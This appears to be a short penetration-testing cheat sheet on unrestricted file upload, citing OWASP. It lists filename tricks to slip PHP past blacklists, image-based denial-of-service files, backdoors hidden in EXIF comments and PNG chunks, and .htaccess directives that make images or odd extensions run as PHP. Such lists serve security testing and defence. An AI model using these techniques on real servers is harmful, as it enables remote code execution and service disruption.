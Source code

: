 Example: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload

upload.php			---	try to upload a simple php file
upload.php.jpeg 		--- 	To bypass the blacklist.
upload.jpg.php 			---	To bypass the blacklist. 
upload.php 			---	and Then Change the content type of the file to image or jpeg.
upload.php*			---	version - 1 2 3 4 5 6 7 
upload.PHP			---	To bypass The BlackList
upload.PhP			---	To bypass The BlackList
upload.pHp			---	To bypass The BlackList
upload .htaccess 		--- 	By uploading this [jpg,png] files can be executed as php with milicious code within it.
pixelFlood.jpg			---	To test againt the DOS.
frameflood.gif			---	upload gif file with 10^10 Frames
Malicious zTXT  		--- 	upload UBER.jpg 
upload.php [getimagesize()	---	Add backdoor in comments using Exiftool and rename the jpg file
					with php so that it will be execute. This Time The Verification
					of server is only limited to contents of the uploaded file
					not on the extension
	
phppng.png			---	backdoor in php chunks
xsspng.png			---	backdoor in php chunks




NOTE:	If you are not able to execute the .PHP file upload new .htaccess file in the
	same directory with data "AddType appilication/x-httpd-php PHP"


setHandler Method [.htaccess]
------------------------------

<FilesMatch "_php.gif">
SetHandler application/x-httpd-php
</FilesMatch>



AddType Method [.htaccess]
--------------------------

AddType application/x-httpd-php .lol
